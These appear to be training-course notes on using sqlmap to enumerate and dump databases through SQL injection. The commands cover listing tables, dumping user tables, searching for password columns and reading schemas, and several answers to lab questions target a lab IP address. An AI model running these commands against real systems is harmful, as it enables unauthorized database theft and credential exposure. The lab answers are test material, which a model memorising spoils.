 # 🏇 Database Enumeration

Enumeration usually starts with the retrieval of the basic information:

* Database version banner (switch `--banner`)
* Current user name (switch `--current-user`)
* Current database name (switch `--current-db`)
* Checking if the current user has DBA (administrator) rights.

```shell-session
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

after finding the current database name (i.e. `testdb`) we might want to find the table names -> `--tables` option and specifying the DB name with `-D testdb`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

And after finding the name, we can use `--dump` option and specify the table name with `-T users`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

It will produce a .CSV file that we can use in SQLite:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

If we want to do conditional enumeration and retrieve certain rows we can use the option `--where`, as follows

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

_**What's the contents of table flag1 in the testdb database? (Case #1)**_

```
sqlmap http://94.237.53.113:50888/case1.php?id=1 --dump -T flag1 -D testdb
```

## Advanced Database Enumeration

have a complete overview of the database architecture, we could use the switch `--schema`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --schema
```

It would turn out something like that:

```
...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

we can search for databases, tables, and columns of interest, by using the `--search` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

It would turn out:

```
..SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+
```

We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

### Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

_**What's the name of the column containing "style" in it's name? (Case #1)**_

```
sqlmap -u "http://94.237.53.113:50888/case1.php?id=1" --search -C style
```

_**What's the Kimberly user's password? (Case #1)**_

```
sqlmap -u "http://94.237.53.113:50888/case1.php?id=1" --search -T users
```
